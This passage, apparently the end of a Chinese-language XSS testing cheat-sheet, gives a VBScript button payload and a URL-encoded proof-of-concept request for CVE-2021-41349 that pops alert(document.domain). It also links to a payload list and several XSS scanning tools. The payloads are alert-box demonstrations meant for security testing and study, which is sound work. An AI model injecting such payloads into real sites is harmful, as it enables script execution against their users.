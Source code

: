 ```
<input type ="button" onClick="VBScript:Document.Write 'ckcsec'

MsgBox 'xss'">
```

### mXSS(突变型XSS)

参考：[https://www.fooying.com/the-art-of-xss-1-introduction/#mxss](https://www.fooying.com/the-art-of-xss-1-introduction/#mxss)

## 常用payload

[https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

## 测试神器

* [XSStrike](https://github.com/UltimateHackers/XSStrike)

* [BruteXSS Terminal](https://github.com/shawarkhanethicalhacker/BruteXSS)

* [BruteXSS GUI](https://github.com/rajeshmajumdar/BruteXSS)

* [XSS Scanner Online](http://xss-scanner.com/)

* [XSSer](https://tools.kali.org/web-applications/xsser)

* [xsscrapy](https://github.com/DanMcInerney/xsscrapy)

## 经典XSS_POC整理（博客持续更新）

**jQuery-with-XSS**

https://github.com/mahp/jQuery-with-XSS

**CVE-2021-41349**

```
POST /autodiscover/autodiscover.json

%3Cscript%3Ealert%28document.domain%29%3B+a=%22%3C%2Fscript%3E&x=1
```
